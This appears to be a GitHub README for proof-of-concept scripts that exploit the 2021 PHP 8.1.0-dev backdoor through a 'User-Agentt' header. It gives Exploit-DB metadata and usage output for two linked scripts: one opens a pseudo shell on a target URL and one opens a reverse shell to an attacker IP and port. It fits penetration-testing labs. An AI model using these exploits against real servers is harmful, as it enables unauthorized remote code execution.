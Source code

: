 # PHP 8.1.0-dev Backdoor Remote Code Execution
_PHP 8.1.0-dev Backdoor System Shell Script_

![docs/logo_php81.png](docs/logo_php81.png "docs/logo_php81.png")

PHP verion 8.1.0-dev was released with a backdoor on March 28th 2021, but the backdoor was quickly discovered and removed. If this version of PHP runs on a server, an attacker can execute arbitrary code by sending the User-Agentt header.   

The original code was restored after the issue was discovered, but then tampered with a second time. The breach would have created a backdoor in any websites that ran the compromised version of PHP, enabling hackers to perform remote code execution on the site.

_Read full article: https://flast101.github.io/php-8.1.0-dev-backdoor-rce/_


* * * 

## POC Script

This short exploit script [backdoor_php_8.1.0-dev.py](https://github.com/flast101/php-8.1.0-dev-backdoor-rce/blob/main/backdoor_php_8.1.0-dev.py) uses the backdoor to provide a pseudo system shell on the host.

It has the number [49933](https://www.exploit-db.com/exploits/49933) on [Exploit DB](https://www.exploit-db.com/exploits/49933).   

- **Exploit Title:** PHP 8.1.0-dev Backdoor Remote Code Execution    
- **Date:** 23 may 2021   
- **Exploit Author:** flast101   
- **Vendor Homepage:** [https://www.php.net/](https://www.php.net/)    
- **Software Link:** [https://github.com/vulhub/vulhub/tree/master/php/8.1-backdoor](https://github.com/vulhub/vulhub/tree/master/php/8.1-backdoor)            
- **Tested on version:** 8.1.0-dev    
- **CVE** : N/A    
- Previous vulnerability references:    
[https://github.com/php/php-src/commit/2b0f239b211c7544ebc7a4cd2c977a5b7a11ed8a](https://github.com/php/php-src/commit/2b0f239b211c7544ebc7a4cd2c977a5b7a11ed8a)    
[https://github.com/vulhub/vulhub/blob/master/php/8.1-backdoor/README.zh-cn.md](https://github.com/vulhub/vulhub/blob/master/php/8.1-backdoor/README.zh-cn.md)    



Usage:


```
┌──(user㉿kali)-[~/Documents]
└─$ python3 backdoor_php_8.1.0-dev.py
  
Enter the full host url:
http://a.b.c.d

Interactive shell is opened on http://http://a.b.c.d 
Can't acces tty; job crontol turned off.
$ id
uid=1000(user) gid=1000(user) groups=1000(user)
```

* * * 

## Reverse Shell    

This short exploit script [revshell_php_8.1.0-dev.py](https://github.com/flast101/php-8.1.0-dev-backdoor-rce/blob/main/revshell_php_8.1.0-dev.py) gives a reverse shell on target.


Usage:


```
┌──(user㉿kali)-[~/Documents]
└─$ python3 revshell_php_8.1.0-dev.py <target URL> <attacker IP> <attacker PORT>
```

![docs/revshell-script.png](docs/revshell-script.png "docs/revshell-script.png")


